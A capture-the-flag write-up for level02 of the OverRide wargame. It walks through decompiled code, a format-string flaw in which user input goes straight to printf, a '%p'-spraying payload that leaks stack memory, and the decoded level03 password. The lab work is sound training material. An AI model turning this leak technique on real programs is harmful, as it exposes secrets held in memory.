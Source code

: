# Level 02

Once logged in, you will see a binary.

```
$ ssh localhost -p 4444 -l level02
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level02@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02

level02@OverRide:~$ ls
level02
```

Let's run the program.

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: aaaaaaaaaaaaaa
--[ Password: bbbbbbbbbbbbbbbbbbbb
*****************************************
aaaaaaaaaaaaaa does not have access!
level02@OverRide:~$
```

By decompiling the source code (with [Hopper](https://www.hopperapp.com/) this time), it first opens the file of the token of level 3, and asks for input from the user. (Apparently this program doesn't seem to check whether the username is correct or not.) If the input doesn't match with the content of the password (the flag for level03), it will print out user name _directly from the user input_ before denying access.

```
	[...]

    puts("===== [ Secure Access System v1.0 ] =====");
    puts("/***************************************\");
    puts("| You must login to access this system. |");
    puts("\**************************************/");
    printf("--[ Username: ");
    // 0x64 = 100, stdin = 1
    fgets(&buffer_username, 0x64, stdin);    // <- here is the part taking input from stdin

	....

	if (strncmp(&buffer_password_file, &buffer_password_input, 41) == 0) {
        printf("Greetings, %s!\n", &buffer_username);
        system("/bin/sh");
        return (0);
	} else {
	    printf(&buffer_username);              // <- here is the part prints the output
	    puts(" does not have access!");
	    exit(1);
	}

	[...]
```

Remember, if the format string is sent directly to the function `printf`, it can be made to print values from the memory (the stack), which a vulnerability.

Also, since the variables are declared on the stack, the values are stored next to each other, which means that we can easily print out the values.

```
	int main(int arg0, int arg1) {
		FILE	*fs;
		size_t	read_count;
		char	buffer_username[100];
		char	buffer_password_file[42];
		char	buffer_password_input[100];

		[...]
```

Let's try and see if the value can be printed. We'll use `%p`, instead of `%x`, which will print out the memory formatted as pointers. This will make it so that even if the memory has leading 0s, we will still get the full hex-formatted memory. (e.g. `0x0000000000000001`)

```
level02@OverRide:~$ python -c 'print "%p "*100 + "\n"' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4a0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe698 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0x2c3000 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

We now have the password value (but reverse endian-ness order): `0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d`

We wrote a quick script (with comments) to decode these hex memory values into the password that you can see at `Ressources/decode_password.py`.

```
$ python3 decode_password.py
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Let's try the password we decoded.

```
level02@OverRide:~$ su level03
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$
```

Success!
